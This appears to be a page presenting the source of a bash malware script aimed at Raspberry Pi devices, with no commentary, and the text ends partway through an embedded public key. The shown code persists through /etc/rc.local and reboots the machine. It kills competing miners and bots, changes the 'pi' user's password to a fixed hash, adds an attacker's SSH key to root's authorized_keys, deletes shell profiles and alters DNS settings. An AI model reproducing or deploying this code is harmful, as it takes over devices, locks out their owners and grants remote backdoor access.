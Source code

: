 ## Source Code

```bash
C0755 4745 nC9qy0wv
#!/bin/bash

MYSELF=`realpath $0`
DEBUG=/dev/null
echo $MYSELF >> $DEBUG

if [ "$EUID" -ne 0 ]
then 
  NEWMYSELF=`mktemp -u 'XXXXXXXX'`
  sudo cp $MYSELF /opt/$NEWMYSELF
  sudo sh -c "echo '#!/bin/sh -e' > /etc/rc.local"
  sudo sh -c "echo /opt/$NEWMYSELF >> /etc/rc.local"
  sudo sh -c "echo 'exit 0' >> /etc/rc.local"
  sleep 1
  sudo reboot
else
TMP1=`mktemp`
echo $TMP1 >> $DEBUG

killall bins.sh
killall minerd
killall node
killall nodejs
killall ktx-armv4l
killall ktx-i586
killall ktx-m68k
killall ktx-mips
killall ktx-mipsel
killall ktx-powerpc
killall ktx-sh4
killall ktx-sparc
killall arm5
killall zmap
killall kaiten
killall perl

echo "127.0.0.1 bins.deutschland-zahlung.eu" >> /etc/hosts
rm -rf /root/.bashrc
rm -rf /home/pi/.bashrc

usermod -p \$6\$vGkGPKUr\$heqvOhUzvbQ66Nb0JGCijh/81sG1WACcZgzPn8A0Wn58hHXWqy5yOgTlYJEbOjhkHD0MRsAkfJgjU/ioCYDeR1 pi

mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D6s4J0L7XV2kep0rNzgY1S1IdE8HDef7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B"  >> /root/.ssh/authorized_keys

echo "nameserver 8.8.8.8" >> /etc/resolv.conf
rm -rf /tmp/ktx*
rm -rf /tmp/cpuminer-multi
rm -rf /var/tmp/kaiten

cat > /tmp/public.pem <<EOFMARKER
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC/ihTe2DLmG9huBi9DsCJ90MJs
glv7y530TWw2UqNtKjPPA1QXvNsWdiLpTzyvk8mv6ObWBF8hHzvyhJGCadl0v3HW
```